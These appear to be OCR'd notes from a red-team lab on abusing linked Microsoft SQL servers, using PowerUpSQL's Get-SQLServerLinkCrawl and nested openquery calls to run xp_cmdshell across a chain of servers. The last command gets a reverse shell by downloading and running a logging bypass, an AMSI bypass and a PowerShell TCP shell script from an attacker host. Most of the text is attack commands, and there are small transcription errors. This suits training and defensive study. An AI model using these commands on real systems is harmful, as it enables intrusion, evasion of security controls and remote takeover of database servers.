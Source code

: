 Abusing links to remote servers (without -QueryTarget the command tries to use xp_cmdshell on every link of the chain)
```powershell
Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local -Query 'exec master..xp_cmdshell ''whoami''' -QueryTarget db-sqlsrv
```

**Executing Commands**

Use the -QuertyTarget parameter to run Query on a specific instance (without -QueryTarget the command tries to use xp_cmdshell on every link of the chain):
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'" -QueryTarget eu-sql
```

From the initial SQL server, OS commands can be executed using nested link queries:
```powershell
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from openquery("eu-sql.eu.eurocorp.local",''''select @@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
```

Learning Objective 22

- Get a reverse shell on a SQL server in eurocorp forest by abusing database links from dcorp-mssql


```powershell
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.X/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.X/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.X/Invoke-PowerShellTcpEx.ps1)
```

